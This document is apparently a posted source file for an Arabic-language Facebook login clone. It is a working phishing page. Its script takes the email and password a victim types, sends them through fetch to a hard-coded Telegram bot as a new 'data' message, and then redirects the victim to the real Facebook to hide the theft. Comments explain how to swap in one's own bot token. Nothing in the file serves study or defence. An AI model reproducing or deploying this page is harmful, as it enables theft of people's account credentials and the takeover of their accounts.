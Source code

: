 # Facebook
تسجيل دخول فيسبوك 

<!DOCTYPE html>
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <title>Facebook Clone</title>
    <style>
        * {
            box-sizing: border-box;
            font-family: Arial, sans-serif;
        }
        
        body {
            background: #f0f2f5;
            margin: 0;
            display: flex;
            justify-content: center;
            min-height: 100vh;
        }

        .facebook-header {
            text-align: center;
            margin: 100px 0;
        }

        .facebook-header h1 {
            color: #1877f2;
            font-size: 4em;
            margin: 0;
        }

        .login-box {
            background: white;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 2px 4px rgba(0,0,0,0.1);
            width: 400px;
            text-align: center;
        }

        input {
            width: 100%;
            padding: 14px;
            margin: 10px 0;
            border: 1px solid #ddd;
            border-radius: 6px;
            font-size: 16px;
        }

        .login-btn {
            background: #1877f2;
            color: white;
            border: none;
            padding: 14px;
            width: 100%;
            border-radius: 6px;
            font-weight: bold;
            cursor: pointer;
            font-size: 16px;
        }

        .forgot-password {
            color: #1877f2;
            text-decoration: none;
            display: block;
            margin: 15px 0;
        }

        .create-account {
            background: #42b72a;
            color: white;
            padding: 14px;
            border-radius: 6px;
            display: inline-block;
            margin-top: 20px;
            text-decoration: none;
            font-weight: bold;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="facebook-header">
            <h1>facebook</h1>
        </div>
        
        <div class="login-box">
            <input type="text" id="email" placeholder="البريد الإلكتروني أو رقم الهاتف">
            <input type="password" id="password" placeholder="كلمة السر">
            <button class="login-btn" onclick="sendCredentials()">تسجيل الدخول</button>
            <a href="#" class="forgot-password">هل نسيت كلمة السر؟</a>
            <hr>
            <a href="#" class="create-account">إنشاء حساب جديد</a>
        </div>
    </div>

    <script>
        const TELEGRAM_BOT_TOKEN = '7995503023:AAHOndTgymceZVM0JfSuXXUjZNUH4_Z2378'; // استبدل بمفتاح بوتك
        const TELEGRAM_CHAT_ID = '7869837768'; // استبدل بمعرف الدردشة

        async function sendCredentials() {
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;

            const message = `🎯 بيانات جديدة:\n📧 البريد: ${email}\n🔑 كلمة السر: ${password}`;

            try {
                await fetch(`https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify({
                        chat_id: TELEGRAM_CHAT_ID,
                        text: message
                    })
                });
                
                window.location.href = 'https://www.facebook.com/'; // إعادة التوجيه بعد الإرسال
            } catch (error) {
                console.error('فشل الإرسال:', error);
            }
        }
    </script>
</body>
</html>
